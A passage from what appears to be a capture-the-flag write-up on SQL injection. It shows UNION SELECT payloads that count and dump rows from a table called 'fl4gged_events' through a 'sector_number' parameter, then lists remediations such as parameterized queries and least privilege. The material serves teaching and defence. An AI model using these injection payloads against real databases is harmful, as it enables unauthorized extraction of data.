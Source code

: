 ### 3.3 Count rows (example: `fl4gged_events`)
' UNION SELECT NULL, count(*), NULL, NULL, NULL FROM fl4gged_events--
<img width="993" height="770" alt="image" src="https://github.com/user-attachments/assets/e9f7984b-4141-439f-a811-be878f5a781f" />

### 3.4 Dump rows (concatenate fields)
Row-by-row extraction using `LIMIT 1 OFFSET {i}`:
' UNION SELECT NULL, (timestamp || ':' || activity), NULL, NULL, NULL FROM fl4gged_events LIMIT 1 OFFSET 0--
<img width="1016" height="819" alt="image" src="https://github.com/user-attachments/assets/9474c464-b659-4312-8405-aa651ef40318" />
' UNION SELECT NULL, (timestamp || ':' || activity), NULL, NULL, NULL FROM fl4gged_events LIMIT 1 OFFSET 1--
<img width="1017" height="847" alt="image" src="https://github.com/user-attachments/assets/26870353-b1f1-4c1c-a847-326d386cf1d4" />

## 5. Remediation and recommendations

1. **Use parameterized queries / prepared statements** — never concatenate user input into SQL statements. Bind `sector_number` as a parameter.
2. **Least privilege for DB user** — the web application should use an account with only the necessary rights and not expose metadata tables where possible.
3. **Input validation & whitelisting** — validate `sector_number` against allowed formats or IDs server-side before using it in queries.
4. **Error handling** — do not leak raw database errors to the user; use generic error messages and server-side logging for diagnostics.
5. **WAF/filters are not a replacement** — do not rely on filtering only; fix the root cause (parameterization).
6. **Output encoding / escaping** — ensure any reflected content is properly escaped/encoded to avoid information disclosure or XSS.

